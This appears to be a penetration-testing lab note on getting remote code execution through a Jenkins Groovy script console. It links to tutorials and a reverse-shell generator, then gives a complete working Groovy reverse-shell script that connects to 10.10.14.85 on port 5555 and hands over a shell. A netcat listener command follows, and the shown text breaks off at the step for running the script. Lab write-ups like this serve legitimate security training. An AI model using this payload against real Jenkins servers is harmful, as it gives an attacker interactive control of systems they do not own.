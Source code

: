 ![](../Assets/Screenshot%202025-09-16%20at%2017.42.14.png)
### Research Jenkins Groovy Scripts
- Resources
	- https://www.hackingarticles.in/jenkins-penetration-testing/
	- https://www.hackingarticles.in/jenkins-penetration-testing/#:~:text=been%20successfully%20executed.-,Exploiting%20Manually%20(Reverse%20Shell),-To%20proceed%20with
	- https://www.revshells.com/
- Reverse shell Script
```groovy
String host="10.10.14.85";int port=5555;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
### Test Jenkins Groovy script
#### Start netcat listener (host)
- Useful resource
	- https://quickref.me/nc.html
```bash
nc -lnvp 5555
```
#### Run Groovy script